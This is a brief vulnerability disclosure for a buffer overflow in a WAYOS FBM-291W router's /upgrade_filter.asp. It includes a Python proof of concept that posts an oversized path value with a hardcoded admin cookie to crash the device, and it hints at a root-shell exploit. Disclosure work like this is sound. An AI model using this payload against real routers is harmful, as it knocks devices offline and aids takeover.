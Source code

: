# FBM-291W-19.09.11V **buffer overflow(CVE-2023-37793)**

## Firmware information

- Manufacturer's address: https://www.wayos.com/
- Firmware download address: https://drive.weixin.qq.com/s?k=ANgAJAcRAAcJQcZsqk#/preview?fileId=s.1970324955538648.649217589iNQ_f.677141204X86O

## Affected version

![1](https://gitee.com/blogyoulin/img/raw/master/images/202307061654721.png)

## Vulnerability details

![image-20230706170020409](https://gitee.com/blogyoulin/img/raw/master/images/202307061700543.png)

In /upgrade_filter.asp, There is buffer_overflow

## Poc

```
import requests
from pwn import *

cmd=b"echo success_pwn_it"

payload=b'http://'+b'A'*0x1000

url = "http://192.168.0.1/upgrade_filter.asp"
cookie={"Cookie":"language=zh; userid=root; gw_userid=root,gw_passwd=94B830FE0CCD890946AE1C8318A2BE7B"}
data = {"path": payload}
response = requests.post(url,cookies=cookie,data=data)
#response = requests.post(url,cookies=cookie,data=data)
print(response.text)
```
You can see the router crash, and finally we can write an exp to get a root shell
